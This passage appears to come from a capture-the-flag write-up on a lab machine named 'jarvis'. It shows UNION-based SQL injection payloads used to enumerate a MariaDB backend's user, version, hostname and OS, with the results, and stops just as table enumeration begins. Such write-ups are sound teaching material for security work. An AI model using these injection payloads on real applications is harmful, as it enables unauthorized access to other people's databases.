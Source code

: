 ![sql_user](./jarvis/sql_user.png)

Cool. So the user is `DBadmin@localhost`. Next replace column 4 in the SQL query with the following for basic host enumeration:

- https://mariadb.com/kb/en/server-system-variables/

```sql
0 UNION ALL SELECT 1,2,3,user(),5,6,7                    -- returns DBadmin@localhost
0 UNION ALL SELECT 1,2,3,@@version,5,6,7                 -- returns 10.1.37-MariaDB-0+deb9u1
0 UNION ALL SELECT 1,2,3,@@hostname,5,6,7                -- returns jarvis
0 UNION ALL SELECT 1,2,3,@@version_compile_os,5,6,7      -- returns debian-linux-gnu
0 UNION ALL SELECT 1,2,3,@@version_compile_machine,5,6,7 -- returns x86_64
```

Okay so a little more is known about the backend target. Next enumerate all tables in the database manually:

- https://www.w3schools.com/php/php_mysql_select_limit.asp
- https://www.w3schools.com/sql/func_mysql_concat.asp
